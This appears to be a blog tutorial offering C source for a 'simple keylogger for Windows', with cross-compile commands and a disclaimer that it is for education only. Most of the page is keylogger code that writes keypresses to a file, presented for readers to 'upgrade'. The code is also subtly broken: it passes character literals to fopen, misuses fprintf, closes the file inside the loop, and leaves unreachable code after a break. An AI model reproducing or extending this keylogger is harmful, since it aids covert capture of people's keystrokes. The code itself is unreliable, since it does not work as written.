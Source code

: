 ```yaml
---
title: "Simple Keylogger for Windows"
draft: false
author: "Aryan Kapse"
date: 2021-12-10
---
```


# Simple Keylogger for Windows


**Very important note**:

    This Program To be used for educational use and not for malicious tasks!
    I will NOT be held responsible for anything silly you may do with this!


- **What is Keylogger** ?
keylogger is application or a program that record the keys pressed by user and store into file


Program:

**NOTE**: we are writing simple demonstration program in which we using fucntion called `kbhit()` to detect if any key is pressed on keyboard. this is not advance keylogger, you can use this keylogger and upgrade it as you want.

**Code**
```c
/* file:keylogger.c */
/* Author: Dr.Deathvolt */

//we need to include the library for input and output
#include<stdio.h>
// we need to include the library which can give us console input output
// this library also contain the funciton which we are going to use `kbhit()`
#include<conio.h>

int main(){
	char ch;
	while(1){
		if(kbhit()){
			// kbhit() to detect any key is pressed on keyboard
			ch = getch(); // storing pressed key value in ch variable

			if((int)ch == 27) //if ESC(in ascii 27) is pressed
				break; // then break the while loop
			printf("\n Key pressed = %c",ch); // printing pressed keys
		}
	}
	return 0;
}
```

**NOTE**:(for Linux users who coding this program on linux)
- Linux doesn't have `<conio.h>`
- You need to install `mingw-w64` to compile programs for Windows
- `sudo apt-get install mingw-w64`
	- compile the program
	- for 32-bit `i686-w64-mingw32-gcc -o test.exe test.c`
	- for 64-bit `x86_64-w64-mingw32-gcc -o test.exe test.c`
- You need to run that exe file on Windows

### File Operations

now we need to store this pressed keys record into file

So, first we define `FILE` datatype which we use as a variable to a file and we are using some file functions like `fopen()`,`fprintf()`,`fclose()`,`fputc()` etc.

**Code**
```c
/* File : Keylogger.c */
/* Author : Dr.Deathvolt */

#include<stdio.h>
#include<conio.h>

int main(){
	char ch;
	FILE *f;
	f = fopen('keys.txt','a'); // opening file in variable 'f'
	// we are opening 'keys.txt' file in appending mode
	// if keys.txt file is not present in program directory
	// append mode will create the file
	while(1){
		if(kbhit()){
			ch = getch();
			fprintf(f,ch); // writing 'ch' data in 'f' file (means keys.txt file)
			if((int)ch == 27) 
				break;
			//this time after breaking the while loop we are not printing any data on console we are storing the data into a file.
			fclose(f); //fclose() will close the file.
		}
	}
	return 0;
}
```

**Final Step**
now we are on final stage, if user will press [ESC] or [TAB] like keys how you will understand where and when this keys are pressed?
for that we are writing some condition statements to detect if any of this special keys will pressed.

> we are using hex codes of this keys to detect if that key is pressed or not.

- You can get this hex values [here](https://www.rapidtables.com/code/text/ascii-table.html)

```c
/* File : Keylogger.c */
/* Author : Dr.Deathvolt */

#include<stdio.h>
#include<conio.h>

int main(){
	char ch;
	FILE *f;
	f = fopen('keys.txt','a');
	while(1){
		if(kbhit()){
			ch = getch();
			//checking hex value of pressed key and writing into a file
			switch ((int)ch){
                case ' ': // Space key
                    fprintf(f, " ");
                    break;
                case 0x09: // Tab key.
                    fprintf(f, "[TAB]");
                    break;
                case 0x0D: // Enter key.
                    fprintf(f, "[ENTER]");
                    break;
                case 0x1B: // Escape key.
                    break;
                    fprintf(f, "[ESC]");
                case 0x08: // Backspace key.
                    fprintf(f, "[BACKSPACE]");
                    break;
                default:
                    fputc(ch,f); // other keys will by default print in file
            }
			if((int)ch == 27) 
				break;
			fclose(f);
		}
	}
	return 0;
}

```

This is Just a demonstartion that explain How keyloggers work.

Thank You for Reading, Hope You Learned something from it :^)

